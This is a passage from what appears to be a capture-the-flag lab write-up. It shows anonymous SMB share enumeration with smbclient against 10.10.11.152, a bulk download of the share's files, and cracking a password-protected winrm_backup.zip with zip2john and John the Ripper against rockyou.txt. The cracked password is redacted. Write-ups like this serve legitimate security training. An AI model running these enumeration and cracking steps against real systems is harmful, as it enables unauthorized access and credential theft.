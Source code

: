 ## SMB Digging

Checking out what shares we have available:

`smbclient -L \\10.10.11.152`

```bash
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share
```

I take a look in the **Shares** share and download all of the files:

```bash
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

                6367231 blocks of size 4096. 1191062 blocks available
smb: \> prompt
smb: \> recurse
smb: \> mget *
getting file \Dev\winrm_backup.zip of size 2611 as Dev/winrm_backup.zip (14.1 KiloBytes/sec) (average 14.1 KiloBytes/sec)
getting file \HelpDesk\LAPS.x64.msi of size 1118208 as HelpDesk/LAPS.x64.msi (1767.0 KiloBytes/sec) (average 1369.9 KiloBytes/sec)
getting file \HelpDesk\LAPS_Datasheet.docx of size 104422 as HelpDesk/LAPS_Datasheet.docx (822.4 KiloBytes/sec) (average 1296.3 KiloBytes/sec)
getting file \HelpDesk\LAPS_OperationsGuide.docx of size 641378 as HelpDesk/LAPS_OperationsGuide.docx (1909.6 KiloBytes/sec) (average 1457.1 KiloBytes/sec)
getting file \HelpDesk\LAPS_TechnicalSpecification.docx of size 72683 as HelpDesk/LAPS_TechnicalSpecification.docx (611.9 KiloBytes/sec) (average 1385.4 KiloBytes/sec)
```

<br>

## PFX File

The **.zip** file from the **dev** directory is password protected so I crack it with **John the Ripper**:

`zip2john winrm_backup.zip > ziphash`

john ziphash --wordlist=rockyou.txt

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2022-04-13 09:52) 4.347g/s 15101Kp/s 15101Kc/s 15101KC/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
